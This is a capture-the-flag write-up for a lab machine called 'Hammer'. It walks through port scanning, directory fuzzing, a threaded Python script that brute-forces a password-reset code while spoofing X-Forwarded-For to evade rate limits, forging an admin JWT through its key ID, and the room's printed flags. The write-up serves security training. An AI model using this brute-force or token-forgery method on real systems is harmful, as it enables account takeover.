

# Hammer

## Introduction

This challenge is rated as medium, and seems to require us to gain a foothold



## Initial Port Scanning

We can first run a RustScan to learn about all the opening ports

```bash
└─$ rustscan -a hammer.thm --ulimit 5000 -- -A
...
Open xx.xx.xxx.xxx:22
Open xx.xx.xxx.xxx:1337
...
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:27:bd:8e:91:60:47:0e:1a:44:ca:46:cd:5e:6c:21 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDucyAz2nkO/YGu+/EeBPAeC3B4WiOTfU1pZIpbjObNcyXy08jgwxlaYSipZmLXBXfBViF41rFSKPH/TBlYZOLImJP1AZMDogkf3j2WAoAfDwuyvw7KZ/BjwtAsGAhXhrGu8ayCxkWNFiD/quKQJJ+kyZnDiShkjXt86FKz4mGerZI+GY/eTp4cDcpdpuuB6TdtL+BIfu3+w+WMvPeQSLDVsAYTTMnYAVYpaOoAh9iCPHOcmTOvx/YFoloXtV52FTMr0wDMeRtdmQ9Z1htMiZYPhp2YlAgYiJFRCe0BoQDAndGnZLR3Mq+T/z1z96nh0VFLAaceD6JiR1e/RnbGa8kgyCzOLohcaP15BgWxB31X9ScNslUeJN0GYbtH2i4///H7yF+EW4jfCAsm6a+t16bXXTp2pg7hC7hrglWoUIhDsLsnyCW9RN5V1mGuhWQiMcZMMkUvSaFDseYG+VmS+YdWGo03PAIkaWJgGMjRg7vi+wFLj7CaRxPZYTwowzBsDzs=
|   256 94:aa:07:ff:9e:b0:1f:2f:57:b7:a8:f9:55:97:24:2f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKkkZRnLAhIrN+JnppFRBNDHRVQZ1z+apohVzceH+g4uljt2IHjinnnMALzJpKGeMTr3KVTZJIUsqDtUswK+5yw=
|   256 b5:1f:bf:02:d4:85:4c:38:1d:91:e8:99:78:80:09:de (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIcvMGEJJraRvgIyzngtqzh4b9bN6vljnQAzHEmy7n61
1337/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Login
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X (93%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/o:linux:linux_kernel:5.4
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 5.4 - 5.15 (96%), Linux 4.15 (95%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%)
No exact OS matches for host (test conditions non-ideal).

```

There are two opening ports, they are:

- Port 22: SSH
- Port 1337: HTTP

## HTTP Endpoints Enumeration

Port 1337 is a login panel


In the source code, we found the naming convention of the directories

```bash
<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->
```

So we can append the `hmr_` in the wordlist and try to enumerate any interesting directories

```bash
└─$ ffuf -u http://hammer.thm:1337/hmr_FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://hammer.thm:1337/hmr_FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

css                     [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 106ms]
images                  [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 105ms]
js                      [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 104ms]
logs                    [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 110ms]
:: Progress: [4614/4614] :: Job [1/1] :: 391 req/sec :: Duration: [0:00:15] :: Errors: 0 ::

```

### Found the logs

From the above result, we found `/hmr_logs`, which might gives as information about credentials or error messages.


Reading `error.logs`, and we know there is a `tester@hammer.thm` email

```bash
[Mon Aug 19 12:00:01.123456 2024] [core:error] [pid 12345:tid 139999999999999] [client 192.168.1.10:56832] AH00124: Request exceeded the limit of 10 internal redirects due to probable configuration error. Use 'LimitInternalRecursion' to increase the limit if necessary. Use 'LogLevel debug' to get a backtrace.
[Mon Aug 19 12:01:22.987654 2024] [authz_core:error] [pid 12346:tid 139999999999998] [client 192.168.1.15:45918] AH01630: client denied by server configuration: /var/www/html/
[Mon Aug 19 12:02:34.876543 2024] [authz_core:error] [pid 12347:tid 139999999999997] [client 192.168.1.12:37210] AH01631: user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
[Mon Aug 19 12:03:45.765432 2024] [authz_core:error] [pid 12348:tid 139999999999996] [client 192.168.1.20:37254] AH01627: client denied by server configuration: /etc/shadow
[Mon Aug 19 12:04:56.654321 2024] [core:error] [pid 12349:tid 139999999999995] [client 192.168.1.22:38100] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/protected
[Mon Aug 19 12:05:07.543210 2024] [authz_core:error] [pid 12350:tid 139999999999994] [client 192.168.1.25:46234] AH01627: client denied by server configuration: /home/hammerthm/test.php
[Mon Aug 19 12:06:18.432109 2024] [authz_core:error] [pid 12351:tid 139999999999993] [client 192.168.1.30:40232] AH01617: user tester@hammer.thm: authentication failure for "/admin-login": Invalid email address
[Mon Aug 19 12:07:29.321098 2024] [core:error] [pid 12352:tid 139999999999992] [client 192.168.1.35:42310] AH00124: Request exceeded the limit of 10 internal redirects due to probable configuration error. Use 'LimitInternalRecursion' to increase the limit if necessary. Use 'LogLevel debug' to get a backtrace.
[Mon Aug 19 12:09:51.109876 2024] [core:error] [pid 12354:tid 139999999999990] [client 192.168.1.50:45998] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/locked-down
```

## Reset Password

But knowing the email alone is not enough, we also need the password to log in.

So I use the ‘Forget your password?’ option, and see if we can reset the password somehow.


### Exploit the Recovery Code

Once we enter the email `tester@hammer.thm`, we are asked to enter the Recovery Code


Looking at the source, we will set `countdownv` is set to 180

```bash
<script>
	let countdownv = 180;
        function startCountdown() {
            
            let timerElement = document.getElementById("countdown");
			const hiddenField = document.getElementById("s");
            let interval = setInterval(function() {
                countdownv--;
				 hiddenField.value = countdownv;
                if (countdownv <= 0) {
                    clearInterval(interval);
					//alert("hello");
                   window.location.href = 'logout.php'; 
                }
                timerElement.textContent = "You have " + countdownv + " seconds to enter your code.";
            }, 1000);
        }
    </script>
```

So what if we set `countdownv` to a large number?


Does it work?


But when I try more Recovery Codes, it will exceed the rate limit and stop us from trying.


### Python Script to brute force the OTP

To continue, we need to figure out how to obtain the OTP without triggering rate limiting while doing so within 180 seconds.

Using AI, I created a script to brute-force the OTP. The trick is to spoof a different IP each time using `X-Forwarded-For`, making the server unable to recognize us, and use threads to run multiple attempts at the same time

```python
import requests
import random
from concurrent.futures import ThreadPoolExecutor, as_completed

url='http://hammer.thm:1337/reset_password.php'

def generate_random_ip():
    return ".".join(str(random.randint(0, 255)) for _ in range(4))
    
def payload(OTP):
    session=requests.Session()
    r=session.post(url, data={'email':'tester@hammer.thm'})
    attempt=session.post(url, data={"recovery_code":OTP, "s":180}, headers={"X-Forwarded-For":generate_random_ip()})
    if attempt.status_code==200:
        if 'Invalid' not in attempt.text:
            return True, OTP
        else:
            return False, OTP
    raise Exception("Unable to submit OTP")            

def main():
     OTP_List=[f"{i:04d}" for i in range(1000,10000)]
     worker_count = 10
     print(f"Initializing concurrent execution with {worker_count} workers...")

     with ThreadPoolExecutor(max_workers=worker_count) as executor:
        # Submit all tasks to the pool; this returns a dictionary mapping futures to payloads
        future_tasks = {executor.submit(payload, item): item for item in OTP_List}
        
        # Process results as they complete asynchronously
        for future in as_completed(future_tasks):
            success, completed_payload = future.result()
            
            if success:
                print(f"\n[+] Condition met successfully with value: {completed_payload}")
                
                # To prevent remaining threads from continuing to consume resources,
                # we call shutdown with cancel_futures=True (Python 3.9+)
                executor.shutdown(wait=False, cancel_futures=True)
                return
            else:
                # Optional: tracking progress visually
                print(f"Tested: {completed_payload} - Insufficient response", end="\r")

if __name__ == "__main__":
    main()
```

Running the script will give us the OTP.

```bash
└─$ python exploit.py                                                                                                                                                                                                                       
Initializing concurrent execution with 10 workers...
Tested: 1026 - Insufficient response
[+] Condition met successfully with value: 1025
```

And now we can reset our password after entering the correct OTP. 


## Getting Our First Flag

With our new password, we can now login to the dashboard, and get the first flag.


First Flag: `THM{AuthBypass3D}`

## RCE

There is a webshell in `dashboard.php`, however the commands we can run is limited because we are in the role `user`. We cannot execute `id`, `pwd`, `cat`, `less`, `base64`, and many other commands


### JWT Token Exploit

When I looked at F12, I realized there is a JWT token. 

Using [jwt.io]([https://www.jwt.io/](https://www.jwt.io/)), we can deduce the following:

- There is a `kid`(Key ID), which is where the key lies
- We are under the role `user`


To craft a valid JWT token, we need to know the key, but thanks to `kid`, we can specify which key we want to use, which we can obtain a key (`188ade1.key`) located in `/var/www/html` 


The key value is `56058354efb3daa97ebab00fabd7a7d7`

```bash
└─$ cat 188ade1.key 
56058354efb3daa97ebab00fabd7a7d7
```

With this, we can specify the server to look at `188ade1.key`, and we can craft a JWT with the role `admin`


With the new JWT, we can read the flag in **`/home/ubuntu/flag.txt`**


Second Flag: `THM{RUNANYCOMMAND1337}`
